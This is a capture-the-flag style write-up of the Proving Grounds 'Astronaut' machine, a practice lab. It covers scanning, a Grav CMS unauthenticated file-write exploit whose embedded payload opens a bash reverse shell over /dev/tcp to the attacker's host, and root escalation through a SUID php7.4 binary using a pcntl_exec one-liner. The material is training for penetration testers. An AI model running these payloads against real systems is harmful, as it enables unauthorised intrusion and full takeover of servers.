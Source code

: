 ```yaml
---
layout: post
title: Proving Grounds Astronaut Write Up
feature-img:
thumbnail:
subtitle: 
date: 2023-11-14
author: "lowercasenumbers"
category: [Proving Grounds]
tags: [Proving Grounds]
---
```

Astronaut from ProvingGround Practice, is a warmup machine that has a short exploitation path. Rooting the box requires a known exploit and an simple privledege escalation. As always, good enumeration is key. 

# Enumeration
Initial enumeration of the machine was done with: `nmap -sC -sV -oA nmap/initial 192.168.245.12
```bash
-sC for default scripts
-sV for service version enumeration
-p- for all port s
-oA to save the output to a file as .nmap, .gnmap, xml (all formats)
```

Following a scan of all TCP ports, the results below show only port 80 is open which simplifies what to look at next.
```bash
# Nmap 7.94 scan initiated Fri Nov 10 08:29:45 2023 as: nmap -sC -sV -oA nmap/initial -p- 192.168.245.12
Nmap scan report for 192.168.245.12
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 10 08:30:07 2023 -- 1 IP address (1 host up) scanned in 21.48 seconds
```

Review of the initial nmap scan we identify that port 80 is open. Browsing to the website, we identify that Grav CMS is being used. While we do not see any specific version infomration, we can still look for potential exploits. 
![Grav-Webpage](/assets/img/blog/pg/astronaut/grav-webpage.png)

Using SearchSploit we can see a few possible exploits. Cross-site scripting is generally not going to provide us with an entry point. The Server-Side Template Injection requires authentication. Arbitrary YAML Write/Update could work so we take a look at the exploit details. 
```bash
searchsploit "Grav CMS"
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting                                                                                                              | php/webapps/42131.txt
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross-Site Scripting                                                                              | php/webapps/49264.txt
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated)                                                                                         | php/webapps/49961.py
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)                                                                                              | php/webapps/49973.py
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit)                                                                                              | php/webapps/49788.rb
gravy media CMS 1.07 - Multiple Vulnerabilities                                                                                                                 | php/webapps/8315.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

# Initial Access
With a potential exploit identified, we should take a moment to review the source code . Taking a look at the 49973.py exploit, we see a target is hardcoded in a variable named `target` and a base64 encoded payload and an example of how to replace it. 
```python
... shortened for brevity...

target= "http://192.168.1.2"
#Change base64 encoded value with with below command.
#echo -ne "bash -i >& /dev/tcp/192.168.1.3/4444 0>&1" | base64 -w0
payload=b"""/*<?php /**/
file_put_contents('/tmp/rev.sh',base64_decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMy80NDQ0IDA+JjE='));chmod('/tmp/rev.sh',0755);system('bash /tmp/rev.sh');

... shortened for brevity...
```
In our case, we can replace the target with our target `192.168.245.12` and can run the command `echo -ne "bash -i >& /dev/tcp/192.168.45.240/4444 0>&1" | base64 -w0`. This will out output our base64 encoded payload. Using this, we can modify the exploit as shown below. 

![Exploit Modifications](/assets/img/blog/pg/astronaut/49973_mods.png)


As we specified in the payload, we setup a netcat listener on port 4444 using `nc -nlvp 4444`. Once setup we can run the exploit using `python 49973.py`. It may take a few moments for the shell to be returned. After waiting for a minute, we recieve the reverse shell as the user www-data.
```bash
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.240] from (UNKNOWN) [192.168.245.12] 41192
bash: cannot set terminal process group (7130): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gravity:~/html/grav-admin$ 
```

# Privilege Escalation
Doing some quick enumeration we can check to see if we can run any commands as root by running `sudo -l`. Unfortunately, this prompts for the password of the `www-data` user which we do not have. 

Another quick check we can perform is looking for any binaries set with a SUID bit. This would allow that binary to be run as the user who owns the binary. Most often this is the root user. To test it we can run the following:

```bash
find / -perm -u=s -type f 2>/dev/null

...shortened for brevity...

/usr/bin/chsh
/usr/bin/at
/usr/bin/su
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.4
/usr/bin/gpasswd
```

While some binaries such as passwd need to be run as root some can be abused. Checking GTFOBins identify that the PHP binary with an SUID bit set can be abused by running `/usr/bin/php7.4 -r "pcntl_exec('/bin/bash', ['-p']);"`. In our case, we run the php7.4 binary which escalates our permissions to root. 

```bash
www-data@gravity:~/html/grav-admin$ /usr/bin/php7.4 -r "pcntl_exec('/bin/bash', ['-p']);"
<sr/bin/php7.4 -r "pcntl_exec('/bin/bash', ['-p']);"
whoami
root
ls -la /root
total 40
drwx------  6 root root 4096 Nov 14 22:04 .
drwxr-xr-x 19 root root 4096 Mar 29  2023 ..
lrwxrwxrwx  1 root root    9 Mar 29  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Apr  3  2023 .cache
-rw-------  1 root root    9 Apr  3  2023 flag1.txt
drwxr-xr-x  3 root root 4096 Mar 29  2023 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rwx------  1 root root   33 Nov 14 22:04 proof.txt
drwx------  3 root root 4096 Jan 24  2023 snap
drwx------  2 root root 4096 Jan 24  2023 .ssh

```

# Other Notes
When performing my enumeration following gaining my foothold, I found a cron job that ran every minute. This at first appeared to be the path to escalation. However, when taking a close look at the grav binary, it should be noted that this is owned and run by the `www-data` user. While its possible to replace this with a malicious binary and recieve a reverse shell. Doing so would result in a reverse shell as the `www-data` user. Had this cron job been run as root, we could have leveraged it. 

```bash
www-data@gravity:~/html/grav-admin/bin$ crontab -l
crontab -l
* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1
www-data@gravity:~/html/grav-admin/bin$ ls -la
ls -la
total 2176
drwxrwxr--  2 www-data www-data    4096 Mar 17  2021 .
drwxrwxr-- 15 www-data www-data    4096 Mar 17  2021 ..
-rwxrwxr--  1 www-data www-data 2205196 Mar 17  2021 composer.phar
-rwxrwxr--  1 www-data www-data    1658 Mar 17  2021 gpm
-rwxrwxr--  1 www-data www-data    1552 Mar 17  2021 grav
-rwxrwxr--  1 www-data www-data    1586 Mar 17  2021 plugin
```

When running `linpeas.sh` on this box, it highlights the grav binary as a 95% likely privilege escalation attack vector. Its important to closely review the output of automated tools and be able to filter out false positives. Linpeas is a wonderful tool and if run in this scenario also identifies the `php7.4` binary which we were able to leverage. 